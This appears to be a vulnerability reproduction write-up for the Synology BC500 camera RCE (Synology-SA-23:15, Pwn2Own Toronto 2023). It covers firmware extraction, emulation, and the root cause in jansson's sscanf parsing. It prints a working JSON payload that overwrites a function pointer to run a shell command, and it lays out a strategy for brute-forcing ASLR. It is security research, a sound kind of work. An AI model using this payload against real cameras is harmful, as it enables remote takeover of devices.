# Description

Reproduce Synology-SA-23:15 (Pwn2Own Toronto 2023)

The version being used is `Synology_BC500_1.0.6_0294.sa.bin`.

# Preparation

The firmware can be extracted using [extract.py](./extract.py). Afterwards, using `binwalk` to extract the u-boot image and identify the kernel version and toolchain used to build the firmware with `strings` and `grep`.

```bash
$ strings _Synology_BC500_1.0.6_0294.sa.bin_linux.bin.extracted/43A8 | grep -i linux
Linux version 4.19.91 (root@runner-gsgehgzy-project-24377-concurrent-0) (gcc version 8.4.0 (Buildroot 2020.02.9-3-g58c1c2e-dirty)) #1 PREEMPT Mon Oct 23 08:30:19 UTC 2023
```

Next, determine the libc library used by employing the `file` command with `busybox` of camera’s rootfs.

```bash
$ ubireader_extract_images Synology_BC500_1.0.6_0294.sa.bin_rootfs.bin
$ unsquashfs ubifs-root/Synology_BC500_1.0.6_0294.sa.bin_rootfs.bin/img-1508864750_vol-rootfs.ubifs
Parallel unsquashfs: Using 12 processors
1818 inodes (1814 blocks) to write

[===========================================================================================================================================================================|] 3632/3632 100%

created 1338 files
created 213 directories
created 480 symlinks
created 0 devices
created 0 fifos
created 0 sockets
created 0 hardlinks
$ file squashfs-root/bin/busybox
squashfs-root/bin/busybox: ELF 32-bit LSB pie executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 4.19.0, stripped
```

The architecture is armeabi with glibc used. To proceed, obtain Buildroot with that version and build a small kernel along with the rootfs with the kernel 4.19.91 version and glibc. You can utilize the default config for `vexpress-a9`:

```bash
make qemu_arm_vexpress_defconfig
```

The used Buildroot and kernel config are attached within the archive.

# Root Cause Analysis

The problem occurs at the following endpoint when a large JSON data is received:

```c
PUT /syno-api/activate HTTP/1.1
Host: 10.0.0.2
Content-Type: application/json
Content-Length: 65

{"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA":"B"}
```

This causes an internal server error.

```
HTTP/1.1 500 Internal Server Error
Content-Type: text/plain
Cache-Control: no-cache, no-store, must-revalidate, private, max-age=0
Content-Length: 109
Date: Fri, 09 Jan 1970 23:36:22 GMT
Connection: close

Error 500: Internal Server Error
Error: CGI program sent malformed or too big (>16384 bytes) HTTP headers: []
```

The file which logs the error is `/tmp/core_dump_log.txt`:

```c
synocam_param.c core dumped at 1970-01-10 00:36:22
```

## `synocam_param.cgi`

The previous message hints at the file `/www/camera_cgi/synocam_param.cgi`. Inside this file, the `req_method_handlers` function handles each incoming HTTP request with its corresponding method.


Take a quick look at the `handle_put_req` function:



The request body is extracted from the packet and passed to the `json_loads_wrapper` function as a parameter. This function actually calls the `json_loads` function from `libjansson.so.4.7.0`.

## `libjansson.so.4.7.0`

The [source code](https://github.com/akheron/jansson) of the library can be found in Github.

Continuing with the `json_loads` function, it declares a `lex` object which holds the status of parsing JSON data (refer to the source code on Github for more details). After performing some checks and initialization from the request body, the `lex` object is passed to the `parse_json` functions.



The `parse_json` handles the parsing actions for numbers, arrays, objects, etc. The `parse_object` function is responsible for parsing objects when the parser encounters a `{` character.



`sscanf` is used to read data from a JSON object without performing bounds checking. This is the root cause of the problem, allowing a buffer overflow attack to be easily performed, leading to RCE.



## Unicode problems

However, since the server receives JSON data, it is neccesary to covnert the target address or the entire ROP payload to Unicode, as JSON doesn’t support raw bytes.

When a Unicode character has an ASCII value ≥ 0x80, it is encoded into raw bytes with some additional bytes appended to the result. Attempting to directly convert such a raw byte like 0x80, back to Unicode without the appended bytes will result in an error.



There is a workaround by using `\u` representation. For example, `\u0403` converts to `\xd0\x83` in raw bytes.



The `json_encode` function in PHP can be used to find the `\u` representation of raw bytes.



Some raw bytes don’t have a `\u` representation, making it cumbersome to send a large amount of raw byte data (such as an entire ROP payload).

Another way to exploit the `sscanf` buffer overflow lies within the `lex_scan` function, which is called after the execution of `sscanf`.



The `lex_scan` function calls the `lex_get` functions, which actually invokes the `get` attribute of `stream_t` structure inside the `lex` object as a function pointer, utilizing the `data` attributes as input. These attributes can be overwritten to gain RCE by changing the function pointer to `system` function’s address.





Since the `get` and `data` attributes are placed at the beginning of `stream_t` structure, and the structure itself is placed at the beginning of `lex` structure, the function pointer and input data can be overwritten while leaving remaining attributes intact.



Below is a simple payload:

```json
{"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;touch${IFS}/tmp/pwned;p\u0403v": ""}
```

The use of `${IFS}` is due to the `%s %s` format string utilized by `sscanf`. Brace expansion isn’t functional because it is not supported.



## ASLR

The system uses 8-bit randomization, with the number of bits used stored in `/proc/sys/vm/mmap_rnd_bits`. Typically, the `system` function’s address appears as 0x768xx070, requiring only 256 times to locate it.

Upon receiving a new request, the web daemon forks a new `synocam_param.cgi` process to handle it. As the addresses are randomized with each fork, a fixed `system` function’s address must be transmitted, accompanied by multiple requests to increase the probability of aligning the new randomized `system` function’s address with the intended one.

In a new process, the newly randomized address is independent from its predecessor’s. Consequently, the probability of a match after n attempts is governed by $1 - (1 - p)^n$, where $p = 1/256$. There exists a 98% probability of success after dispatching 1000 requests to the camera.

# Exploit

After chrooting into `squash-fs` inside emulation environment, web server can be started by using the following command:

```bash
/etc/rc.d/rc1.d/S01systemd start
```

It was observed that using the traditional method by running `/etc/init.d/rcS` failed to revive the web server.

The headers and the body of HTTP requests are passed to the CGIs as environment variables and stdin input. They can be retrieved using a simple wrapper like this:

```bash
# synocam_param.cgi

#!/bin/sh
date >>/tmp/dump.log
echo '------------------------ ENV ------------------------' >>/tmp/dump.log
env >>/tmp/dump.log
echo '------------------------ BODY -----------------------' >>/tmp/dump.log
read body
echo $body >>/tmp/dump.log
echo '------------------------ END ------------------------' >>/tmp/dump.log
echo >>/tmp/dump.log

echo $body | ./synocam_param.cgi.bak
```

To improve life quality when debugging CGI, a local debugger can be set up with `qemu-arm-static`, `gdb-multiarch` and pwndbg as shown in [qemu_debug.py](./qemu_debug.py)

The next step is to find the `system` function’s address. Using `gdb` static linked with `set disable-randomization off` option is sufficient to find it. After two runs, it becomes apparent that the two characters in the middle are randomized and the nearby character to the left of it changes by 1.



Thus, the fixed `system` function’s address is chosen as 0x7683d070. The `synocam_param.cgi` can be exploited even without the web server: [manual_exploit.sh](./manual_exploit.sh). However, the process often hangs after a few attempts so simply pressed Ctrl + C and rerun the exploit script.



After the manual exploitation, the camera is ready to be gang banged by 10 threads: [exploit.py](./exploit.py)



# References

- [Pwn2Own Toronto 2023: Part 1 – How it all started](https://blog.compass-security.com/2024/03/pwn2own-toronto-2023-part-1-how-it-all-started/)
